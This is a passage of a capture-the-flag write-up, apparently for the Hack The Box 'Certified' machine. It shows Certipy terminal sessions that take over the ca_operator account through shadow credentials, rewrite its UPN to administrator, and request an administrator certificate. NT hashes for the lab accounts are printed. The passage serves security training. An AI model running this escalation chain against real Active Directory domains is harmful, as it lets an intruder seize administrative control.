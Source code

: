 ```shell
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ certipy-ad shadow auto -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -account  ca_operator -dc-ip 10.129.231.186
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_operator'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'c90d264c-38d6-3d95-1ccb-7099cb8a7138'
[*] Adding Key Credential with device ID 'c90d264c-38d6-3d95-1ccb-7099cb8a7138' to the Key Credentials for 'ca_operator'
[*] Successfully added Key Credential with device ID 'c90d264c-38d6-3d95-1ccb-7099cb8a7138' to the Key Credentials for 'ca_operator'
[*] Authenticating as 'ca_operator' with the certificate
[*] Using principal: ca_operator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_operator.ccache'
[*] Trying to retrieve NT hash for 'ca_operator'
[*] Restoring the old Key Credentials for 'ca_operator'
[*] Successfully restored the old Key Credentials for 'ca_operator'
[*] NT hash for 'ca_operator': d1b3a9fb11e8c9ec2b1269fcb7410b41
```


```shell
──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ certipy-ad account update -user ca_operator -upn 'administrator@certified.htb' -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -dc-ip 10.129.231.186
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : administrator@certified.htb
[*] Successfully updated 'ca_operator'

```


Requesting the certificate for administrator
```shell
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ certipy-ad req -u ca_operator@certified.htb -hashes d1b3a9fb11e8c9ec2b1269fcb7410b41 -template CertifiedAuthentication -upn administrator@certified.htb -ca certified-DC01-CA -dc-ip 10.129.231.186
Certipy v4.8.2 - by Oliver Lyak (ly4k)

/usr/lib/python3/dist-packages/certipy/commands/req.py:459: SyntaxWarning: invalid escape sequence '\('
  "(0x[a-zA-Z0-9]+) \([-]?[0-9]+ ",
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 7
[*] Got certificate with UPN 'administrator@certified.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```
